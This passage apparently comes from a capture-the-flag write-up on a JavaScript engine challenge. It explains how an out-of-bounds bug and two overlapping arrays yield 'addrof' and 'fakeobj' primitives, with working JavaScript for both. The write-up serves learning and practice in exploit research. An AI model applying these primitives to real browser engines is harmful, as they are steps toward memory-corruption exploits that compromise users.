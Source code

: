 `a`'s map says that everything is stored in pointers to Objects. Further additions will also add a pointer to an object.

On the contrary, `b`'s map says that everything is stored in an IEEE754 float representation.

In it's current state, this is useless. However, once we use our OOB, this is actually how we can solve the challenge.

Because `b` comes after `a` in memory, at some point we should be able to access `b`'s elements from `a` using our basically unlimited OOB. It turns out that the offset is at index ~15. I say ~15 because the heap layout is pretty sensitive, so any small changes might affect the offset slightly.

While exploiting, I was stuck for a while here. I drew up a diagram similar to the one below and realized how to solve it:

![](https://i.imgur.com/slG3q3z.png)


Recall how `a` stores its elements - they are all pointers. So, if we set `a[15]` to `{}`, it would also affect `b[0]` since they are overlapping. But, `b` thinks everything is in IEEE754 float representation, and just returns that pointer (as a float)!

And so, we now can find the address of any object that we want. This is called the `addrof` primitive.

Now, imagine the opposite: modifying `b[0]` to have the IEEE754 float representation of a pointer that we want, and then getting it by using `a[15]`. This is the `fakeobj` primitive.

```javascript
a = [{}, 2.2]
b = [3.3, 4.4]

off = 15

a.setHorsepower(20)
b.setHorsepower(50)



function addrof(obj){
    a[off] = obj
    return ftoi(b[0]) & 0xffffffffn
}


function fakeobj(addr){
    b[0] = itof(addr)
    return a[off]
}

d = {}
print("d test @", hex(addrof(d)))

while(addrof(d) == 0x66666666){
    off++
    print("d test @", hex(addrof(d)))
}

```
